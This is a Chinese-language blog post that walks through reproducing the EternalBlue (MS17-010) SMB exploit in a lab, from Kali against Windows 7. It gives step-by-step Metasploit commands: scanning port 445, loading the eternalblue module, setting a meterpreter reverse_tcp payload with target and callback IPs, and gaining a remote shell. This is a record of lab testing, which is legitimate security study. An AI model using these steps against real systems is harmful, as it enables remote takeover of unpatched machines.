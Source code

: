 ```yaml
---
title: 永恒之蓝复现
author: czk
categories:
- 漏洞利用
tags: 
- 漏洞利用
- 永恒之蓝
- MS17-010
date: 2020-08-14
---
```


# 前言

EternalBlue(永恒之蓝)是黑客组织在漏洞利用框架中的一个针对SMB服务进行攻击的模块，从2017年爆发到现在，这个Exploit持续不断的被恶意利用.通过Tcp端口445和139利用SMV v1远程代码执行漏洞,无需用户任何操作，不法分子就能在电脑上植入恶意软件。

由于工作需要，需要复现一下渗透过程，下面记录一下：

<!-- more -->

# 复现环境

攻击机：  kali-linux-2020.2-amd64

靶    机：  Windows_7_ultimate_with_sp1_x64



主机发现

​	使用nmap对靶机 ip 扫描，确认端口是否打开

![nmap_ip](/pic/czk/Eternalblue/nmap_ip.png)

扫描到开放了445端口，永恒之蓝就是利用的445端口的smb服务



进入MSF框架

​	kail@kali:~$ msfconsole

查看漏洞模块 search ms17-010

![searchms17010](/pic/czk/Eternalblue/searchms17010.png)

​	可以看到有2个模块： auxiliary（辅助）模块和exploit（攻击）模块；辅助模块主要用于网络攻防前期的踩点，信息搜集；

使用辅助模块扫描

​	msf> use auxiliary/scanner/smb/smb_ms17_010

![use_auxiliary](/pic/czk/Eternalblue/use_auxiliary.png)

查看模块配置参数

​	msf> show options

![showoptions](/pic/czk/Eternalblue/showoptions.png)

​	Required列为yes的选项对应的Current Setting项需要填写。



设置攻击目标, 然后再次查看配置参数

![setrhosts](/pic/czk/Eternalblue/setrhosts.png)

​	确认RHOSTS对应项被设置了靶机IP；



执行扫描

![runresult1](/pic/czk/Eternalblue/runresult1.png)

​	显示可以使用MS17-010漏洞攻击成功，搜集到了主机系统信息； 接下来就可以执行攻击了；



使用攻击模块对靶机攻击

​	use exploit/windows/smb/ms17_010_eternalblue

![useexploit](/pic/czk/Eternalblue/useexploit.png)

设置攻击载荷

​	查看载荷可以使用show payloads(这里不再展示)

​	因为靶机选用的64位所以选择x64的payload,

​	msf5 exploit(windows/smb/ms17_010_eternalblue) >  set payload windows/x64/meterpreter/reverse_tcp

设置目标ip

​	msf5 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 192.168.1.71

设置反弹ip  (攻击成功后建立反向连接，即攻击机ip,获取本地ip, 在shell中输入sudo ifconfig)

​	msf5 exploit(windows/smb/ms17_010_eternalblue) > set lhosts 192.168.1.52



最后的配置就是下图的样子，注意反弹端口默认是4444，可以更改

![exploit_show](/pic/czk/Eternalblue/exploit_show.png)

执行攻击

![win](/pic/czk/Eternalblue/win.png)

成功后，会出现命令提示符meterpreter >,这时我们输入 shell ,即切到到目标机windows shell，接下来就可以执行任意操作了。

![shell](/pic/czk/Eternalblue/shell.png)











